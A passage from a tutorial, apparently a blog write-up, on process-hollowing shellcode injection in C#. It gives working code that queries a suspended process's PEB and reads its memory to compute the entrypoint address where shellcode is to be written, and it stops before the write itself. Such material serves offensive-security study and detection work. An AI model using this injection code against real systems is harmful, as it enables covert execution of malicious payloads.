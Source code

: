 ```csharp
}
```
Then we need to get the PEB or Process Environment Block of the process in suspended state. THe PEB is a memory structure that every process has and it comtains some interesting fields that we can use to calculate things like `ImageBaseAddress`, which is what we are going to do. But first we need to query the process to get the PEB Address and then add [`0x10`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm) offset to it to get the pointer to the base image address. We can get the `PebAddress` from the `PROCESS_BASIC_INFORMATION` struct that we have.
<br>
For the API `ZwQueryInformationProcess` we will need a process handle, which we can retrieve from `PROCESS_INFORMATION`. The second parameter is `procInformationClass` which from the Microsoft Docs, we can set to 0 to get a pointer to the PEB structure. Then we can calculate the pointer to image base address with adding PEB Address and an offset of `0x10`.  
```csharp
uint retLength = 0;
IntPtr procHandle = proc_info.hProcess;
ZwQueryInformationProcess(procHandle, 0, ref pbi, (uint)(IntPtr.Size * 6), ref retLength);
IntPtr imageBaseAddr = (IntPtr)((Int64)pbi.PebAddress + 0x10);
Console.WriteLine("[*] Image Base Address found: 0x{0}", imageBaseAddr.ToString("x"));
```
Now we need to write the actual shellcode into the entery point address for it to execute. We cant directly write to it because the address changes due to ASLR (Address Space Layout Randomization). So we need to calculate it for each process. That can be done by

- Calculating actual image base adress
- Calculating `e_lfanew` value
- Calculating Entrypoint Relative Virtual Address (RVA)
- Calculating EntryPoint RVA
- Calculating actual abslute entrypoint address
<br>
I know thats a lot. We will be using `ReadProcessMemory` to read the memory for these addresses and calculate them. First we will calculate the actual image base for executable address. We will be setting the base address bytes to `0x8` for x64 process. Then read the memory to those base address bytes of PEB to get the address we need. The 0 in `BitConverter` indicates the starting point. We are reading 8 bytes in as `ToInt64`.
```csharp
byte[] baseAddrBytes = new byte[0x8];
IntPtr lpNumberofBytesRead = IntPtr.Zero;
ReadProcessMemory(procHandle, imageBaseAddr, baseAddrBytes, baseAddrBytes.Length, out lpNumberofBytesRead);
IntPtr execAddr = (IntPtr)(BitConverter.ToInt64(baseAddrBytes, 0));
```
After getting that, we will be reading the memory but this time to `0x200` bytes from the base address we just got to parse the PE structure.
```csharp
byte[] data = new byte[0x200];
ReadProcessMemory(procHandle, execAddr, data, data.Length, out lpNumberofBytesRead);
```
Then we can calculate the `e_lfanew` value which contains the PE Header at the offset of `0x3c`. The value of `e_lfanew` is 4 bytes so we will be using `ToUint32`.
```csharp
uint e_lfanew = BitConverter.ToUInt32(data, 0x3C);
Console.WriteLine("[*] e_lfanew: 0x{0}", e_lfanew.ToString("X"));
```
We can get the RVA offset by adding `0x28` into the `e_lfanew` value that we have which contains PE Header pointer.
```csharp
uint rvaOffset = e_lfanew + 0x28;
```
We are going to read 4 bytes into the RVA offset to get the offset of the executable entrypoint address
```csharp
uint rva = BitConverter.ToUInt32(data, (int)rvaOffset);
```
Finally we can add RVA and the base address to get the absolute value of the Entrypoint Address that we can write our shellcode to. 